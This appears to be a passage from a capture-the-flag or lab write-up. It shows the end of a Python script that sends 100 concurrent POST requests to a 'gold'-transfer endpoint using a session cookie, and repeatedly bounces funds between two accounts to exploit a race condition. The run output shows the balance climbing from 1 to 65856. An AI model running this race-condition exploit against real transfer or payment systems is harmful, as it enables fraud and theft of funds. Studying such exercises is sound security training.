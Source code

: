 ```bash
    headers = {
        "Host": ip_address,
        "Referer": f'http://{ip_address}/giving.html',
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "close",
        "Cookie": f"connect.sid={cookie}",
        "Upgrade-Insecure-Requests": "1"
    }
    cookies = {
        "connect.sid": cookie
    }
    data = f"user={user}&amount={amount}"
    rs = (grequests.post(url, data=data, cookies=cookies, headers=headers) for _ in range(100))
    responses = grequests.map(rs)
    print(f"{amount} gold has been sent to user {user}!")

def main():
    gold_needed = 0
    counter = 1
    while gold_needed < 10000:
        if counter % 2 == 0:
            print(f"{user_main}'s turn to send gold...")
            cookie, gold_needed = user_gold_and_cookie(user_main, pass_main)
            send_gold(user_add, cookie, gold_needed)
        else:
            print(f"{user_add}'s turn to send gold...")
            cookie, gold_needed = user_gold_and_cookie(user_add, pass_add)
            send_gold(user_main, cookie, gold_needed)
        counter += 1

if __name__ == "__main__":
    main()
```

`python racescript.py`

```bash
overthenet's turn to send gold...
Current Gold Amount for User overthenet: 1
Sending 1 gold to user otheruser
1 gold has been sent to user otheruser!
otheruser's turn to send gold...
Current Gold Amount for User otheruser: 32
Sending 32 gold to user overthenet
32 gold has been sent to user overthenet!
overthenet's turn to send gold...
Current Gold Amount for User overthenet: 224
Sending 224 gold to user otheruser
224 gold has been sent to user otheruser!
otheruser's turn to send gold...
Current Gold Amount for User otheruser: 1344
Sending 1344 gold to user overthenet
1344 gold has been sent to user overthenet!
overthenet's turn to send gold...
Current Gold Amount for User overthenet: 9408
Sending 9408 gold to user otheruser
9408 gold has been sent to user otheruser!
otheruser's turn to send gold...
Current Gold Amount for User otheruser: 65856
Sending 65856 gold to user overthenet
65856 gold has been sent to user overthenet!
```
